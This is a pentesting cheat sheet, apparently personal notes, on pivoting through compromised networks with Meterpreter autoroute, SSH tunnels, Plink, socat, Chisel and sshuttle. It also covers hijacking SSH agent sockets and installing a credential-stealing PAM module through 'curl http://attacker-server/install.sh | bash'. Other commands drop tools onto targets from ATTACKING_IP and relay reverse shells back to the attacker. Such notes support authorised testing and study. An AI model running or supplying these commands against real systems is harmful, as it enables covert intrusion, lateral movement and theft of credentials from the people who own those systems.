 # Meterpreter
#### Route
* * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or </br>
* * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
    * `meterpreter> portfwd list` - check port forwarding list
    * in linux host, run `nmap <local_port>`

# Manual tactics
#### Port Forwarding - SSH
* `ssh -4 -L 8000:127.0.0.1:3306 sysadmin@demo.ine.local` - forward target port _3306_ to attackers local port _8000_
    *  `-4` - use IPv4 only
*  `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
    *  existing access on _172.16.0.5_
    *  forwards target's (_172.16.0.10) HTTP traffic through existing access _172.16.0.5_
    *  accessible on _localhost:8000_ as attacker machine
    *  `-f` - backgrounds the shell immediately
    *  `-N` don't execute commands, only set up connection

#### Proxies - SSH
* `ssh -D 1337 user@172.16.0.5 -fN`
    * combined with `proxychains`
 
#### Reverse connections
1. generate new ssh keys: `ssh-keygen`
2. copy content of _.pub_ file and paste it on attacker's machine in `~/.ssh/authorized_keys`
3. copy `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` at the beginning of `~/.ssh/authorized_keys`
4. copy attacker's private ssh key on target's system
5. `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN` - connect from the victim back to attacker with a reverse port forward

#### Reverse proxy - SSH
1. same step as above except 5.
2. `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`- from the victim

## Tools
### Plink - Windows
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
1. transport `plink.exe` to victim
2. move public key in `~/.ssh/authorized_keys`
3. convert the generated _keyfile_
    *  `sudo apt install putty-tools`
    *  `puttygen KEYFILE -o OUTPUT_KEY.ppk`
4. `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

### Socat
* set up encrypted traffic
* bypassing AV might require custom compilation
* https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat - Linux static binaries
* https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download - Windows static binaries
1. copy binary to target: `curl ATTACKING_IP/socat -o /tmp/socat && chmod +x /tmp/socat-USERNAME`
#### Reverse shell relay
2. attacking box: `sudo nc -lvnp 443`
3. compromised server: `./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
#### Port forwarding
__Easy__

2. compromised server: `./socat tcp-l:33060,fork,reuseaddr tcp:<target-IP>:3306 &`
    * port _33060_ on victim is redirected to _target-IP_ port _3306_

__Quiet__

2. attacking machine: `socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
3. compromised server: `./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
4. target accessible back on attacking machine on _localhost:8000_

### Chisel
https://github.com/jpillora/chisel/releases
* `chisel client|server --help`
* configure `proxuchains` according to details bellow
#### Reverse SOCKS proxy
1. attacking machine: `./chisel server -p LISTEN_PORT --reverse &`
2. compromise host: `./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

#### Forward SOCKS proxy
1. compromised host: `./chisel server -p LISTEN_PORT --socks5`
2. attacking machine: `./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

#### Remote port forward
1. attacking machine: `./chisel server -p LISTEN_PORT --reverse &`
2. compromised host: `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`
3. connect on the attacker machine on `127.0.0.1:LOCAL_PORT`

#### Local port forward
1. compromised host: `./chisel server -p LISTEN_PORT`
2. attacking machine: `./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

### Shuttle - Linux
https://github.com/sshuttle/sshuttle
* `sudo apt install sshuttle`
* `sshuttle -r username@address subnet`
    * `sshuttle -r user@172.16.0.5 172.16.0.0/24`
        * _172.16.0.5_ - compromised host
        * _172.16.0.0/24_ - network to pivot into
* `sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`
    * `-x 172.16.0.5` - if the compromised host is part of the target network, this host needs to be __excluded__
* `sshuttle -r username@address -N`
    * `-N` - determine network automatically based on compromised server's routing table
* `sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`
    * `--ssh-cmd "ssh -i KEYFILE"` - use keyfile to connect to compromised host


> [!IMPORTANT]
> * when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
> * use `bind_tcp` payloads 

# Linux
* __SSH session hijacking__
    * requires **active** SSH session on the target
    * requires **root** 
    * `ps aux | grep sshd` - determine SSH process ID
    * `grep SSH_AUTH_SOCK /proc/<PID>/environ`
    * `SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.XXX ssh-add -l` - hijack target ssh-agent socket
    * `ssh remotesystem -l <victim>` - log into remote system as victim
* __SSH - stealing credentials__
    * malicious PAM module
    * https://github.com/mthbernardes/sshLooter
    * on attacking machine: edit _install.sh_ and _looter.py_ pointing _url_ variable to a server under attacket control to log POST requests
    * on compromised machine: `curl http://attacker-server/install.sh | bash`
* __Samba secrets__
    * `tdbdump /var/lib/samba/private/secrets.tdb`
    * https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae9

# Local Techniques
#### Local Port forward
* `ssh -L <local port to listen on>:<remote machine>:<remote port> <username>@<ssh-server>`

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding

